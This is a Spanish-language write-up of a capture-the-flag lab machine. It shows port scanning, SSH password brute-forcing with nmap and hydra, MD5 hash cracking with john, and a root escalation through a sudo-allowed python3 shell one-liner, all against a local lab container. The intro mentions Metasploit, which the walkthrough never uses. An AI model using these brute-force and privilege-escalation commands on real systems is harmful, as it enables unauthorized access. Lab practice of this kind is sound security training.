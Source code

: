 - Tags: #PequenasMentirosas
---
# Aprendizaje en Pequeñas-Mentirosas
El reto se centra en la explotación de una vulnerabilidad conocida en un servicio web, utilizando herramientas como Metasploit para obtener acceso inicial al sistema. Posteriormente, se realiza una escalada de privilegios mediante la identificación y explotación de configuraciones inseguras, lo que permite al atacante obtener acceso root.

[Maquina Pequenas Mentirosas](https://mega.nz/file/PBVmhbZR#4FmEtW_KULolSuinPFLs4pX2ukPnq8TjUDTEQk2bvsE) ==> Enlace de descarga al laboratorio
```bash
7z x pequenas-mentirosas.zip # Descomprimimos ek archivo
sudo bash auto_deploy.sh pequenas-mentirosas.tar # Desplegamos el laboratorio
```
---

#### Fase Reconocimiento:
```bash
172.17.0.2 --> Direccion ip del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para ver si tenemos conectividad con el target.

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina Linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts  # Realizamos escaneo para descubrir puertos expuestos en el target
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
 nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y la version que corre detras de estos puertos.
```

**( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) )** ==> Tenemos un servicio ssh expuesto
**( 80/tcp open  http    Apache httpd 2.4.62 ((Debian)) )** ==> Tenemos un servicio apache expuesto.
**( Apache httpd 2.4.62 )** ==> Revisando el **launchPad** podemos determinar que estamos ante una verson de **debianOracular**.

```bash
nmap --script http-enum -p80 172.17.0.2 # No reporta nada critico
```

#### Fase Recococimiento Web:
```bash
whatweb http://172.17.0.2 # No encontramos nada critico, Asi mismo la herramienta wappalyzer no nos reporta mucha informacion.
http://172.17.0.2 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.2]
```
---
- **( a )** Tenemos un potencial usuario bajo este nombre, al cual aplicaremos fuerza bruta ya sea con **Hydra** o con **Nmap**
```bash
 nmap -p22 --script ssh-brute --script-args userdb=users.txt 172.17.0.2    # users.txt contiene el nombre.

a:secret - Valid credentials  # Tenemos credenciales validas
```

#### Fase Intrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh a@172.17.0.2 # despues ingresamos la password.
```

#### Fase Escalada Privilegios:
```bash
ls -l /home/ # Revisamos si existen mas usuarios,
cat /etc/passwd # 
```

**Nota** ==> Al listar el contenido del directorio, no encontramos ningún archivo. Es importante recordar que los archivos asociados con los servidores se almacenan en el directorio `/srv`.
**( /srv/ftp/ )** ==> Aqui se encuentrar archivos a los cuales le tendremos que aplicar fuerza bruta.

```bash
scp a@172.17.0.2:/srv/ftp/* . # Nos traemos todo a nuestro directorio actual de trabajo.
```
---
```bash
john --format=raw-md5 hash_spencer.txt # Rompemos el cifrado de este archivo y es: ( password1 )

hydra -l spencer -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://172.17.0.2 # Igual aplicamos fuerza bruta
[22][ssh] host: 172.17.0.2   login: spencer   password: password1 # Ahora podemos migrar al usaurio spencer
```

**( spencer )** ==> Desde la misma maquina comprometida nos logueamos con la **password** del este usuario
```bash
ssh spencer@localhost # password1

sudo -l # Detectamos que este usuario puede ejeucutar este binario python con privilegios sin proporcionar password.
User spencer may run the following commands on 24db61a61f61:
    (ALL) NOPASSWD: /usr/bin/python3
```

**Elevando Privilegios Root**
```bash
sudo -u root /usr/bin/python3 -c 'import os; os.system("/bin/bash -p")' # Ahora somos root y tenemos control total.
```